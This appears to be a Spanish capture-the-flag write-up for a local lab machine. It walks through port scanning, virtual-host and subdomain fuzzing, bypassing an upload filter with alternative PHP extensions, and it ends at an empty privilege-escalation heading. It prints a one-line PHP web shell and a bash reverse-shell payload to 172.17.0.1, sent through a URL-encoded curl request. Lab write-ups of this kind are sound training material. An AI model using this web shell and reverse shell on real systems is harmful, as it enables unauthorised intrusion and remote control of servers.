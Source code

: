 ## FASE DE ENUMERACIÓN
Hacemos un escaneo de puertos y servicios de la IP 
```bash
sudo nmap -sS -sCV -Pn --min-rate 5000 -p- -vvv --open 172.17.0.2 -oN PuertosYservicios
```
```
ORT   STATE SERVICE REASON         VERSION
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.62 ((Debian))
|_http-title: Apache2 Debian Default Page: It works
|_http-server-header: Apache/2.4.62 (Debian)
| http-methods: 
|_  Supported Methods: POST OPTIONS HEAD GET
MAC Address: 02:42:AC:11:00:02 (Unknown)
```
solo tenemos el puerto 80 abierto, mirammos con herramientas como whatweb etc y no veo nada interesante, me voy a la página y veo esta parte:
```
The default Debian document root is /var/www/5eEk3r
```
así pues empiezo a pensar en virtual hosting, así pues ejecuto lo siguiente:
```bash
sudo nano /etc/hosts
```
y añadp esta línea al final:
```bash
172.17.0.2      5eEk3r
```
después de realizar fuzzing de directorios y extensiones y no encontrar nada veo esta parte en el index.html:
```
The default Debian document root is /var/www/5eEk3r. You can make your own virtual hosts under /var/www.
```
así pues lo añado al etc/hosts
```bash
sudo nano /etc/hosts
```
```
172.17.0.2      5eEk3r www.5eEk3r
```
y lo abro en el navegador, dádome esto:
```
Apache/2.4.62 (Debian) Server at 5eEk3r.dl Port 80
```
así pues añadimos de nuevo en el /etc/hosts lo encontrado:
```bash
sudo nano /etc/hosts
```
```
172.17.0.2      5eEk3r www.5eEk3r 5eEk3r.dl
```
y viendo por donde van los tiros, voy a fuzzear si hay más subdomkinios:
```bash
wfuzz -c --hc=404 --hh=10705 -w /opt//SecLists/Discovery/DNS/subdomains-top1million-110000.txt -H "Host: FUZZ.5eek3r.dl" http://5eek3r.dl | tee dominios
```
## Explicación del comando:
1- wfuzz: Herramienta de fuzzing utilizada para buscar subdominios.

2- -c: Activar la coloración de salida en la terminal.

3- --hc=404: Ignorar respuestas con código de estado 404 (no encontrado).

4- --hh=10705: Ignorar respuestas con un tamaño de encabezado HTML de 10705 bytes.

5- -w /opt/SecLists/Discovery/DNS/subdomains-top1million-110000.txt: Ruta al diccionario de subdominios a utilizar.

6- -H "Host: FUZZ.5eek3r.dl": Utiliza el encabezado Host con el marcador de posición FUZZ que será reemplazado por las entradas del diccionario.

7- http://5eek3r.dl: URL base a la que se realizarán las solicitudes.

8- | tee dominios: Redirige la salida tanto a la terminal como a un archivo llamado dominios.

Este comando realizará el fuzzing en busca de subdominios válidos de 5eek3r.dl utilizando el diccionario proporcionado, ignorando ciertos códigos de estado y tamaños de respuesta.
Los resultados serán guardados en el archivo dominios y también se mostrarán en la terminal.


obetengo como resultado:
```
 /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://5eek3r.dl/
Total requests: 114441

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                                                                     
=====================================================================

000009532:   400        10 L     35 W       301 Ch      "#www"                                                                                                                                                                      
000010581:   400        10 L     35 W       301 Ch      "#mail"                                                                                                                                                                     
000042993:   200        101 L    75 W       932 Ch      "crosswords"
```
un 200 ok, pues lo introduzco en el /etc/hosts de nuevo, quedándome así:

```
172.17.0.2      5eEk3r www.5eEk3r 5eEk3r.dl crosswords.5eEk3r.dl
```

hago un fuzzin su solo encuentro index.php, miro su código fuente y al final veo esto:
```
http://crosswords.5eek3r.dl/index.php/
```
<! -- Al que contratamos para crear la web nos habló de algo llamado 'xss'... que será? -->
```

despues ver lograr inyectar un XSS y dar mil vueltas me doy cuenta que es un rabbithole, así pues me pongo a buscar más,
me acordé del tema de los dominios y volví a ellos.
```bash
wfuzz -c --hc=404 --hh=10705 -w /opt//SecLists/Discovery/DNS/subdomains-top1million-110000.txt -H "Host: FUZZ.crosswords.5eEk3r.dl" http://5eek3r.dl
```
```
000000024:   200        103 L    189 W      2906 Ch     "admin"
```
así pués lo añadimos de nuevo al /etc/hosts, nuevo domion admin.crosswords.5eEk3r.dl

## FASE DE INTRUSIÓN:

vamos a la página y vemos un panel interesante, dónde puedo subir archivos, subo un archivo en php y me dice:
```
No se permiten archivos PHP, solo HTML.
```
voy a probar con varias extensiones de php con un pequeño diccionario y burpsuite:
```
php
phps
phar
pht
phtm
phtml
pgif
shtml
php2
php3
php4
php
php6
php7
phps
phps
pht
phtm
phtml
pgif
shtml
htaccess
phar
inc
hphp
ctp
module
```
el contenido algo sencillito:
```bash
<?php system($_GET['cmd']); ?>
```
y...entraron varias xD
hago una busqueda y parece ser que aquí no se han subido los archivos, así pues empiezo a mirar en los otros subdominios
y efectivamente en http://crosswords.5ee3r.dl están alojados, al menos "shell.phar" es verdad que de todos los subidos algunos no estaban:
así pues con nuestro amigo curl vamos a intentar hacernos una reverseshell, usaremos este payload:
```
bash -c 'bash -i >& /dev/tcp/172.17.0.1/445 0>&1'
```
pero hay que encodearlo para que de menos problemas y hacemos la peticion con curl:
```bash
curl "http://crosswords.5eek3r.dl/shell.phar?cmd=bash%20-c%20%27bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F172.17.0.1%2F445%200%3E%261%27"
```
Por fin estamos dentro.

## ESCALADA DE PRIVILEGIOS




